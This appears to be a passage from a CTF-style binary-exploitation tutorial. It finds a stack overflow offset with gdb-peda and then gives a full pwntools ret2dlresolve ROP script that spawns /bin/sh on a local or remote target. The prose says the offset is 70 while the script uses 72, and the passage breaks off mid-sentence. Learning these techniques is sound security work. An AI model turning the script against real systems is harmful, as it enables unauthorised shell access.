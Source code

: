 #### With gdb+peda

```
gdb -q ./binary
```

\#Generating a pattern

```
Gdb-peda$:Pattern_create 500
```

\#Running the pattern against the binary

```
Gdb-peda$:run 'pattern'
```

\#Finding the offset of the stack pointer

```
pattern offset [address of EIP/RSP]
```

OR

```
pattern search [address of EIP/RSP]
```

Once you find the offset, say it's at `70` then you can use the below script to gain shell

```python
from pwn import *
****
context.binary = 'binaryname'

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(context.binary, symbol='system', args=['/bin/sh\0'])

rop.read(0, dlresolve.data_addr)
rop.raw(rop.ret[0])
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

if len(sys.argv) == 1:
    p = context.binary.process()
else:
    host, port = sys.argv[1].split(':')
    p = remote(host, port)

p.sendline(b'A' * 72 + raw_rop)
p.sendline(dlresolve.payload)
p.interactive()
```

In the above script we use pwntools to call the `Ret2dlresolvePayload` to be able to link the system function to the binary. Make sure to change the number of bytes in the offset according to your numbers along with the binary name in the variable `context.binary`. Then run as below
